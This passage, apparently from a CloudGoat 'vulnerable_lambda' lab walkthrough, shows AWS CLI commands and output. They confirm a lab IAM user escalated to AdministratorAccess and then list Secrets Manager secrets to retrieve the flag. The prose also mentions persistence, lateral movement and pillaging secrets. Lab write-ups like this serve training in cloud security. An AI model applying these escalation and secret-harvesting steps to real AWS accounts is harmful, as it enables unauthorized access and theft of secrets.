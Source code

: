 The contents of the JSON response offer a bit more insight:  

```bash
> cat response.json                                                             
"All managed policies were applied as expected."
```

We can verify whether or not our attempt was successful by checking the `bilbo` 
IAM user for additional policies (beyond the inline user policy created 
alongside the user):  

```bash
aws iam list-attached-user-policies --user-name cg-bilbo-vulnerable_lambda_cgidlbywef16bt
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

## Post-Exploitation

Now that we have full admin access, we can persist, move laterally, pillage 
secrets and source code, etc. Listing secrets in Secrets Manager 
will retrieve the scenario's flag.

```bash
aws secretsmanager list-secrets
```

```json
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:REDACTED:secret:vulnerable_lambda_cgidlbywef16bt-final_flag-quMGQi",
            "Name": "vulnerable_lambda_cgidlbywef16bt-final_flag",
            "LastChangedDate": "2023-02-19T14:11:26.843000-05:00",
            "LastAccessedDate": "2023-02-18T19:00:00-05:00",
            "Tags": [
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Name",
                    "Value": "cg-vulnerable_lambda_cgidlbywef16bt"
                },
                {
                    "Key": "Scenario",
                    "Value": "vulnerable-lambda"
                }
            ],
            "SecretVersionsToStages": {
                "183B5F61-1B84-4465-BDCD-13CE9953ECC2": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2023-02-19T14:11:26.623000-05:00"
        }
    ]
}
```
